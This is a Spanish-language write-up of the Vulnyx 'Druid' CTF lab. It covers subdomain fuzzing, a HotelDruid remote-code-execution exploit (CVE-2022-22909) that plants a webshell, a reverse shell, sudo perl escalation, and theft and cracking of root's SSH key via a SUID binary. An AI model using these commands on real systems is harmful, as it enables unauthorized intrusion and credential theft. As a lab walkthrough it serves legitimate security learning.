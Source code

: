 # Vulnyx Druid

Arp scan

```bash
arp-scan -I eth0 --localnet
(Ip-Victima)
```

```bash
nmap -p 22,80 -sS -sC -sV -n -Pn (Ip-Victima) -oN nmap
```

- 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.56 ((Debian))
  - http-title: Hotel
  - http-server-header: Apache/2.4.56 (Debian)

Bien, tenemos una web de un hotel donde al final encontramos un Email "info@hotel.nyx".

Así que subiremos `hotel.nyx` al `/etc/hosts`.

```bash
nano /etc/hosts
(Ip-Victima)    hotel.nyx
```

Ahora procedemos a hacer fuzzing, pero no encontramos nada nuevo. Decidimos hacer fuzzing de subdominios.

```bash
wfuzz --hc=404,400 --hl=616 -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -H 'host: FUZZ.hotel.nyx' -u (IP-víctima)
```

- reservations.hotel.nyx

Y encontramos una especie de software para hoteles. "HotelDruid 3.0.3". Buscando, encontramos un CVE asociado a la versión.

CVE-2022-22909

Nos permite ejecutar comandos de manera remota, procedemos a descargarlo y a usarlo.

Aquí el link de descarga:
http://reservations.hotel.nyx/dati/selectappartamenti.php?1=id

Luego lo usamos. Para utilizarlo, necesitamos cambiar la pass a `admin`, la cual la encontramos en "Configure and customize > User management".

```bash
python3 exploit.py -t http://reservations.hotel.nyx/ -u admin -p 1234
```

Esto crea una webshell dentro de una ruta, la cual se nos entrega con el mismo uso del script.

http://reservations.hotel.nyx/dati/selectappartamenti.php?1=whoami
- www-data

Ahora, procedemos a hacer una reverseshell urlencodeada para tomar acceso. Yo ya la tengo guardada, así que usaré esa. Pero para obtenerla, ingresar en "webshell-generator" y luego urlencodearla con Burpsuite.

Pegamos la reverseshell luego del `.php?=` nos ponemos en escucha con netcat, ejecutamos y ya ganamos acceso.

Ahora hacemos el tratamiento de la TTY

```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Vemos que tenemos un usuario llamado "sun" que tendrá más privilegios que nosotros siendo `www-data`.

```bash
sudo -l
(sun) NOPASSWD: /usr/bin/perl
```

Al ejecutar `sudo -l` vemos que podemos ejecutar `perl` como `sun`. Ingresamos a GTFObins y vemos que tenemos forma de abrir una bash como el usuario `sun`.

https://gtfobins.github.io/gtfobins/perl/

```bash
sudo -u sun /usr/bin/perl -e 'exec "/bin/sh";'
```

```bash
whoami
sun
```

Ahora toca escalar a root

```bash
find / -perm -4000 2>/dev/null
/usr/bin/super
```

Al investigar, vemos que tenemos una opción de "rev" el cual es un binario que lee archivos a la inversa. Entonces, podemos leer y copiar un archivo como root. Atacaremos al `id_rsa` de root

```bash
/usr/bin/super -H
super secret --> /usr/bin/rev
```

```bash
/usr/bin/super secret /root/.ssh/id_rsa > id_rsa
```

Ya tenemos el `id_rsa` de root, pero invertido, para cambiarlo haremos lo siguiente

```bash
rev id_rsa > id_rsa2
```

Ahora descargamos `id_rsa2`, cambiamos el nombre a `id_rsa`, lo crackeamos con john, damos permisos a `id_rsa` y entramos via ssh como root.

```bash
ssh2john id_rsa2 > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
s****1
chmod 600 id_rsa
ssh -i id_rsa root@(ip_victima)
```
Y ya entramos como root :D
Y ya entramos como root :D
